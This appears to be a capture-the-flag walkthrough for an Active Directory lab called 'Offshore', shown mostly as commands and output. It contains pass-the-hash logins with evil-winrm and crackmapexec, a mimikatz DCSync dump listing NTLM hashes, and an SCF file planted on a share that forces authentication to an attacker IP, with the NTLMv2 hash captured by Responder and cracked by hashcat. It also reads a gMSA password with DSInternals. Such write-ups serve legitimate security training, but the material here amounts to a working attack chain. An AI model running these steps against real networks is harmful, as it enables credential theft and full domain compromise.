






Credentials for client\offshore_adm
Credentials for client\svc_client_sec$
Evil-WinRM into DC03 and grab the flag
└─$ evil-winrm -i 172.16.3.5 -u administrator -H 'f2594c9e60abf7e28e7601db343a7e24'
Evil-WinRM shell v3.4
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\flag.txt
OFFSHORE{w@tch_th0s3_3xtra_$ids}
Check for trusts
PS C:\temp> Get-DomainTrust -Domain admin.offshore.com
SourceName : ADMIN.OFFSHORE.COM
TargetName : dev.ADMIN.OFFSHORE.COM
TrustType : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection : Bidirectional
WhenCreated : 5/31/2018 10:24:17 PM
WhenChanged : 5/3/2023 7:09:44 AM
SourceName : ADMIN.OFFSHORE.COM
TargetName : CLIENT.OFFSHORE.COM
TrustType : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : TREAT_AS_EXTERNAL,FOREST_TRANSITIVE
TrustDirection : Bidirectional
WhenCreated : 6/15/2018 7:10:35 PM
WhenChanged : 5/3/2023 7:10:16 AM
Ping to get our IP range
PS C:\temp> ping client.offshore.com
Pinging client.offshore.com [172.16.4.5] with 32 bytes of data:
Reply from 172.16.4.5: bytes=32 time<1ms TTL=127
Bloodhound dump
PS C:\temp> Invoke-BloodHound -CollectionMethod all -Domain client.offshore.com
Looking through the GPOs that are applied on the client.offshore.com domain we can see one called Flag

You can get the text of this by right clicking and backing it up

Taking a look at the users in client.offshore.com

In the description of client_banking there is another flag
OFFSHORE{h1dd3n_1n_pl@iN_$1ght}
Do a hashdump with mimikatz.exe lsadump::dcsync /all /csv
502 krbtgt ea9112d4beb759907688c9e267eff246 514
1107 MS01$ db505645b78f70ae01dd6cebbe4b2b8b 4096
3113 bankvault 0ce1cb01ade331cdba32d0e1fba338a1 512
1000 DC03$ a309490aabcffeea561fb1d8b36607d0 532480
1108 WS04$ 2abf50d13b5e08b92ac2d90c1d125b99 4096
3101 DEV$ 49acc9c76b18bcd39b256d3882c4cf0e 2080
3104 CLIENT$ 9d866488a63dfcca510faf2214937fdf 2080
500 Administrator f2594c9e60abf7e28e7601db343a7e24 512
13101 pwner bb81d3d5d69b8e27d76484303d1d2447 512
13102 agent 8119935c5f7fa5f57135620c8073aaca 66048
Using Crackmapexec we can see admin\bankvault has write permissions to a share in Client\MS02
└─$ crackmapexec smb 172.16.4.31 -u 'bankvault' -H '0ce1cb01ade331cdba32d0e1fba338a1' -d 'admin.offshore.com' --shares
/home/user/.pyenv/versions/3.8.1/lib/python3.8/site-packages/paramiko/transport.py:219: CryptographyDeprecationWarning: Blowfish has been deprecated
"class": algorithms.Blowfish,
SMB 172.16.4.31 445 MS02 [*] Windows Server 2016 Standard 14393 x64 (name:MS02) (domain:admin.offshore.com) (signing:False) (SMBv1:True)
SMB 172.16.4.31 445 MS02 [+] admin.offshore.com\bankvault 0ce1cb01ade331cdba32d0e1fba338a1
SMB 172.16.4.31 445 MS02 [+] Enumerated shares
SMB 172.16.4.31 445 MS02 Share Permissions Remark
SMB 172.16.4.31 445 MS02 ----- ----------- ------
SMB 172.16.4.31 445 MS02 ADMIN$ Remote Admin
SMB 172.16.4.31 445 MS02 Banking_Data READ,WRITE
SMB 172.16.4.31 445 MS02 C$ Default share
SMB 172.16.4.31 445 MS02 IPC$ Remote IPC
https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication
Let's try to make an SCF that will reach out to our attack machine when the user logs on
└─$ cat stealhash.scf
[Shell]
IconFile=\\10.10.16.94\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
└─$ smbclient.py -hashes aad3b435b51404eeaad3b435b51404ee:0ce1cb01ade331cdba32d0e1fba338a1 'ADMIN.offshore.com/bankvault@172.16.4.31'
Impacket v0.9.22.dev1+20200914.131346.64ce465 - Copyright 2020 SecureAuth Corporation
Type help for list of commands
# use Banking_Data
# put stealhash.scf
Start responder - sudo responder -I tun0 and after a minute or two we get this
[SMB] NTLMv2-SSP Client : 10.10.110.3
[SMB] NTLMv2-SSP Username : CLIENT\offshore_adm
[SMB] NTLMv2-SSP Hash : offshore_adm::CLIENT:80ffa84c900ed72f:62320D1008A83DC867AFC290B1F8A043:01010000000000000089C3FBC77DD901A09C1DC960C92C3000000000020008004F0053004C004A0001001E00570049004E002D004900580033005500580055005100570032003300430004003400570049004E002D00490058003300550058005500510057003200330043002E004F0053004C004A002E004C004F00430041004C00030014004F0053004C004A002E004C004F00430041004C00050014004F0053004C004A002E004C004F00430041004C00070008000089C3FBC77DD90106000400020000000800300030000000000000000000000000200000BF7C5E99EF4CA006B412380DBECFEABD190457C5150EE5EA7B15172757C44B530A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00390034000000000000000000
Run hashcat on this
hashcat -a 0 -m 5600 offshore_adm.txt rockyou.txt --force
We get offshore_adm's password
Offshore_adm can read the password for the managed service account

We can read the password with DSInternals

PS C:\temp> $username = 'client\offshore_adm'
$pass = convertto-securestring "Banker!123" -asplaintext -force
$cred = new-object system.management.automation.pscredential($username, $pass)
$gMSA = Get-ADServiceAccount -Identity 'svc_client_sec$' -Properties 'msDS-ManagedPassword' -server 172.16.4.5 -credential $cred
$msDSMP_blob = $gMSA.'msDS-ManagedPassword'
$CleartextPassword = ConvertFrom-ADManagedPasswordBlob $msDSMP_blob
ConvertTo-NTHash $CleartextPassword.SecureCurrentPassword
b23930001d1bfeed9ad9e1b8f34909c1 / svc_client_sec$
Check this user on MS02 and it's an administrator
crackmapexec smb 172.16.4.31 -u 'svc_client_sec$' -H 'b23930001d1bfeed9ad9e1b8f34909c1' -d 'client.offshore.com'
